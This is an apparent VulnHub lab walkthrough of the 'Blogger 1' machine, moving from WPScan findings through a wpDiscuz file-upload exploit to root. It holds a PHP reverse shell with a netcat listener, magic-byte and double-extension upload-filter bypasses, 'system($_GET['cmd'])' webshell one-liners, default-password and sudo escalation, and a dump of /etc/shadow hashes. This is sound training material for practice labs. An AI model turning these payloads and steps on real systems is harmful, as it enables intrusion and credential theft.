 |      - https://wpscan.com/vulnerability/2e121d4f-7fdf-428c-8251-a586cbd31a96
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45760
 |
 | [!] Title: wpDiscuz < 7.6.12 - Cross-Site Request Forgery
 |     Fixed in: 7.6.12
 |     References:
 |      - https://wpscan.com/vulnerability/f8dfcc13-187c-4a83-a87e-761c0db4b6d9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47775
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/53af9dfd-eb2d-4f6f-b02f-daf790b95f1f
 |
 | [!] Title: wpDiscuz < 7.6.6 - Unauthenticated SQL Injection
 |     Fixed in: 7.6.6
 |     References:
 |      - https://wpscan.com/vulnerability/a2fec175-40f6-4a80-84ed-5b88251584de
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/9dd1e52c-83b7-4b3e-a791-a2c0ccd856bc
 |
 | [!] Title: wpDiscuz < 7.6.13 - Admin+ Stored XSS
 |     Fixed in: 7.6.13
 |     References:
 |      - https://wpscan.com/vulnerability/79aed6a7-a6e2-4429-8f98-ccac6b59fb4d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-51691
 |      - https://patchstack.com/database/vulnerability/wpdiscuz/wordpress-wpdiscuz-plugin-7-6-12-cross-site-scripting-xss-vulnerability
 |
 | [!] Title: wpDiscuz < 7.6.16 - Authenticated (Author+) Stored Cross-Site Scripting via Uploaded Image Alternative Text
 |     Fixed in: 7.6.16
 |     References:
 |      - https://wpscan.com/vulnerability/f3a337ae-54e5-41ca-a0d9-60745b568469
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-2477
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/3eddc03d-ecff-4b50-a574-7b6b62e53af0
 |
 | Version: 7.0.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.95.10/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Thu May  9 23:33:35 2024
[+] Requests Done: 105396
[+] Cached Requests: 8
[+] Data Sent: 31.711 MB
[+] Data Received: 14.286 MB
[+] Memory used: 425.133 MB
[+] Elapsed time: 00:11:15
                                                                                                                               
┌──(kali㉿kali)-[~]
└─$  
```


---
---

# Foothold 🦶

### [WPScan - Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload](https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61/)


If we go back to http://192.168.56.38/assets/fonts/blog/ we should be able to use this exploit with a comment section.
If we click on any of the titles we get an error finding that site http://blogger.thm/assets/fonts/blog/?p=29

We need to add `blogger.thm` as a host/domain.

```bash
# add this host inside this file
┌──(kali㉿kali)-[~]
└─$ sudo nano /etc/hosts 

127.0.0.1       localhost
127.0.1.1       kali.kali       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.168.56.38 blogger.thm
```

now go back to the browser and , now you can se the content of the page of http://blogger.thm/assets/fonts/blog/?p=29, at the bottom of the page you can add comments and upload files.

next step, do a PHP reverse shell.

```bash
# find/locate the file
┌──(kali㉿kali)-[~]
└─$ locate php reverse shell
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-1.0/php/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-1.0/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php


┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

# do some minor changes on the file, such as IP address
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

# Also be a good idea to change the name and file extension
┌──(kali㉿kali)-[~]
└─$ mv php-reverse-shell.php shell.png
```

If we upload this file to the comments and use burp Suite to change the file extension before sending, we would get a filetype not allowed...




## We can add `GIF89a;` This is a classic trick used to bypass upload filters.
at the first line of our PHP file, this line needs a deeper explanation.




Here is what is going on, in simple terms:
Many web apps check file type only by reading the first bytes
Some upload filters try to detect images by checking if the file starts with a known image signature. For GIF files, the signature is: ``GIF89a``

If the first bytes match that signature, the server thinks the file is an image, even if the rest of the file is something else.

PHP does not care about junk before the opening `<?php`
When PHP executes a file, it ignores everything until it sees the `<?php` tag.

The upload filter sees a GIF.  
The PHP interpreter sees the code after `<?php`.

### Result: You bypass the filter and still execute code

The file is stored as something like `shell.php` or maybe `shell.php.gif` depending on the system.  
If the server is misconfigured and executes PHP in that file extension or folder, your reverse shell runs normally.

### Why it works

- Filters look at the _magic bytes_ to validate file type.
- PHP only executes code after `<?php`.
- The GIF header is harmless to PHP.
### When this trick is required

You usually use this:
- When the server only checks file type by magic bytes.
- When file extension filtering is weak.
- When PHP execution is allowed in upload folders.

It is a very common trick in CTFs, VulnHub machines, old CMS vulnerabilities, and beginner pen test labs.

### Alternative Header Tricks

```bash
# PNG
�PNG
\x89PNG\r\n\x1a\n
<?php

# JPEG
ÿØÿ
\xFF\xD8\xFF

# Null Byte Extension Trick
shell.php%00.jpg

# The `%00` (null byte) truncates the filename at the server layer on old systems, so it becomes `shell.php` internally.  
# Note: Modern PHP no longer allows this, but CTFs and old VulnHub images sometimes do.

# Double Extension
shell.php.jpg
shell.php.gif

# "Polyglot" PHP Image Files
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg

# Upload the image, and if the server uses `imagecreatefromjpeg()` or similar functions insecurely, your code may execute.

# Or append PHP code after end-of-image marker:
cat some.jpg > shell.jpg
echo "<?php system($_GET['cmd']); ?>" >> shell.jpg
# Most image viewers will still show the picture, but if the server executes the file as PHP, you get code execution.
```

```bash
# Remember enable netcat before file upload (with the same port number as from the script (default: 1234))!
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234 


```

I did an upload without burp suite and I can confirm that is not working, so this is a necessary step, that we intercept the request and change the file extension from ``shell.png`` to ``shell.php``, we don't even need to bother and add name and legal email address and **POST COMMENT**. Uploading the file is enough to trigger the reverse shell.



```bash
# After changing filename="shell.png" to shell.php and before sending request, the reverse shell will trigger our netcat 🐈🐈‍⬛😻
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234                
listening on [any] 1234 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.38] 41072
Linux ubuntu-xenial 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 09:53:49 up 13 min,  0 users,  load average: 0.07, 0.03, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can''t access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# Lets find python so we can spawn a better shell experience
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu-xenial:/$ 

# use xterm
www-data@ubuntu-xenial:/$ export TERM=xterm
export TERM=xterm

# Let's find the user directory
www-data@ubuntu-xenial:/$ ls

bin   dev   initrd.img      lib64       mnt   root  snap  tmp      var
boot  etc   initrd.img.old  lost+found  opt   run   srv   usr      vmlinuz
data  home  lib             media       proc  sbin  sys   vagrant  vmlinuz.old
www-data@ubuntu-xenial:/$ cd /home
cd /home
www-data@ubuntu-xenial:/home$ ls
ls
james  ubuntu  vagrant

# go to user dir
www-data@ubuntu-xenial:/home$ cd james 
cd james
www-data@ubuntu-xenial:/home/james$ ls
ls
user.txt
www-data@ubuntu-xenial:/home/james$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@ubuntu-xenial:/home/james$ 

# If we change to a different user, we might be able to read the user-flag 🚩
# the user called "vagrant" is actually a tool, that usually have the default password of 'vagrant'
www-data@ubuntu-xenial:/home/james$ su vagrant
su vagrant                                                                                          
Password: vagrant    

# But we still do not have permission to see the user-flag 🚩
vagrant@ubuntu-xenial:/home/james$ cat user.txt                                                     
cat user.txt                                                                                        
cat: user.txt: Permission denied                                                                    
vagrant@ubuntu-xenial:/home/james$ 


```


---
---

# Privilege Escalation

```bash

# See if the current user have any commands with elevated permissions
vagrant@ubuntu-xenial:/home/james$ sudo -l                                                                    
sudo -l                                                                                                       
Matching Defaults entries for vagrant on ubuntu-xenial:                                                       
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
vagrant@ubuntu-xenial:/home/james$ 

# Since we can do all commands without passwords, we can change to elevated user/root without any problem
vagrant@ubuntu-xenial:/home/james$ sudo su
sudo su
root@ubuntu-xenial:/home/james# cat user.txt

# We can now read the content of the userflag 🚩🚩🚩
cat user.txt
ZmxhZ3tZMHVfRCFEXzE3IDopfQ==
root@ubuntu-xenial:/home/james# 

# Let's get the root flag!!! LET'S GO! 🚩🏁🚩🏁🚩🏁🚩
root@ubuntu-xenial:/home/james# cd /
cd /
root@ubuntu-xenial:/# ls
ls
bin   dev   initrd.img      lib64       mnt   root  snap  tmp      var
boot  etc   initrd.img.old  lost+found  opt   run   srv   usr      vmlinuz
data  home  lib             media       proc  sbin  sys   vagrant  vmlinuz.old

# 
root@ubuntu-xenial:~# ls -a
ls -a
.  ..  .bashrc  .profile  root.txt  .ssh
root@ubuntu-xenial:~# cat root.txt
cat root.txt
SGV5IFRoZXJlLApNeXNlbGYgR2F1cmF2IFJhaiwgSGFja2VyLCBQcm9ncmFtbWVyICYgRnJlZUxhbmNlci4KVGhpcyBpcyBteSBmaXJzdCBhdHRlbXB0IHRvIGNyZWF0ZSBhIHJvb20uIExldCBtZSBrbm93IGlmIHlvdSBsaWtlZCBpdC4KQW55IGlzc3VlIG9yIHN1Z2dlc3Rpb25zIGZvciBtZS4gUGluZyBtZSBhdCB0d2l0dGVyCgpUd2l0dGVyOiBAdGhlaGFja2Vyc2JyYWluCkdpdGh1YjogQHRoZWhhY2tlcnNicmFpbgpJbnN0YWdyYW06IEB0aGVoYWNrZXJzYnJhaW4KQmxvZzogaHR0cHM6Ly90aGVoYWNrZXJzYnJhaW4ucHl0aG9uYW55d2hlcmUuY29tCgoKSGVyZSdzIFlvdXIgRmxhZy4KZmxhZ3tXMzExX0QwbjNfWTB1X1AzbjN0cjR0M2RfTTMgOil9Cg==
root@ubuntu-xenial:~# 

```





---
---

# BONUS

```bash
# Get password hashes
root@ubuntu-xenial:~# cat /etc/shadow
cat /etc/shadow                                                                                               
root:*:18633:0:99999:7:::                                                                                     
daemon:*:18633:0:99999:7:::                                                                                   
bin:*:18633:0:99999:7:::                                                                                      
sys:*:18633:0:99999:7:::                                                                                      
sync:*:18633:0:99999:7:::                                                                                     
games:*:18633:0:99999:7:::                                                                                    
man:*:18633:0:99999:7:::                                                                                      
lp:*:18633:0:99999:7:::                                                                                       
mail:*:18633:0:99999:7:::                                                                                     
news:*:18633:0:99999:7:::                                                                                     
uucp:*:18633:0:99999:7:::                                                                                     
proxy:*:18633:0:99999:7:::
www-data:*:18633:0:99999:7:::
backup:*:18633:0:99999:7:::
list:*:18633:0:99999:7:::
irc:*:18633:0:99999:7:::
gnats:*:18633:0:99999:7:::
nobody:*:18633:0:99999:7:::
systemd-timesync:*:18633:0:99999:7:::
systemd-network:*:18633:0:99999:7:::
systemd-resolve:*:18633:0:99999:7:::
systemd-bus-proxy:*:18633:0:99999:7:::
syslog:*:18633:0:99999:7:::
_apt:*:18633:0:99999:7:::
lxd:*:18633:0:99999:7:::
messagebus:*:18633:0:99999:7:::
uuidd:*:18633:0:99999:7:::
dnsmasq:*:18633:0:99999:7:::
sshd:*:18633:0:99999:7:::
pollinate:*:18633:0:99999:7:::
vagrant:$6$RLkGQC2t$9nPwSp0UsuCtGNfoCDYW8HKbuU3pDilChBB7SBOqLgb2xgvTpzL/YaT5qRVBp4.s6UFDCUVh05/qoLrn5I4TH.:18633:0:99999:7:::
ubuntu:!:18644:0:99999:7:::
mysql:!:18644:0:99999:7:::
james:$6$8IxyBIli$Oh/vAKQO4lE.s1yaAaFMlMPWMSfnVS54MdM6ncSW0beT5DTWuYSgOlqqocy5vh4MK.pgXks9hgUZJswhOEj4W1:18644:0:99999:7:::
root@ubuntu-xenial:~# 

# Show only hashes of the machine root (needs root access of target machine)
root@ubuntu-xenial:~# awk -F: '/^root/{print $2}' /etc/shadow
*
```


---
---

# VulnHub Pentest Notes - [Blogger 1]  
🔍 **Target IP:** `192.168.56.38`  
🖥 **OS:** Linux/Windows (Update accordingly)  
📅 **Date:** 2025-11-29  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/blogger-1,675/)  
📌 [YouTube Walkthrough - Blogger: Blogger 1 || VulnHub Complete walkthrough](https://www.youtube.com/watch?v=uTQqqYEmR2g)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
	- [ ] whatweb or Wappalyzer
- [ ] Try default credentials 🤡  
- [ ] Try Linpeas.sh 🫛
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

